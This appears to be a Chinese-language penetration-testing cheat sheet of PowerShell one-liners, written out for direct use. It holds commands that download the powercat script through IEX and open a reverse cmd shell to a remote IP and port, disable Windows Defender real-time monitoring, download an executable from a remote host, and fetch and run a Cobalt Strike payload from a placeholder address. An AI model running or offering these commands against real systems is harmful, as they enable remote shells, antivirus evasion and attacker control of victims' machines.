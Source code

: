 **远程下载 powercat.ps1 脚本，并带参数运行，该命令可以绕过powershell的执行策略**



```
powershell IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1');powercat -c 192.168.10.11 -p 8888 -e cmd
```




### ![](https://img-blog.csdnimg.cn/20191117215321326.png)



### 渗透测试常用的PowerShell命令



**关闭Windows自带的Defender防火墙(需要管理员权限)**



```
powershell Set-MpPreference -disablerealtimeMonitoring $true
```




**在cmd窗口下执行，将远程主机上的test.exe 下载到本地的D盘下**



```
powershell (new-object system.net.webclient).downloadfile('http://192.168.10.11/test.exe','d:/test.exe');
```




**cmd窗口下利用Powershell反弹NC shell**  



```
在cmd窗口执行      
powershell IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1');powercat -c 192.168.10.11 -p 8888 -e cmd      
在powershell窗口执行      
IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1');powercat -c 192.168.10.11 -p 8888 -e cmd
```




**cmd窗口下利用Powershell反弹CobaltStrike shell** 



```
在cmd窗口执行      
powershell.exe -c IEX ((new-object net.webclient).downloadstring('http://xx.xx.xx.xx/a'))        
在powershell窗口执行      
IEX ((new-object net.webclient).downloadstring('http://xx.xx.xx.xx/a'))
```
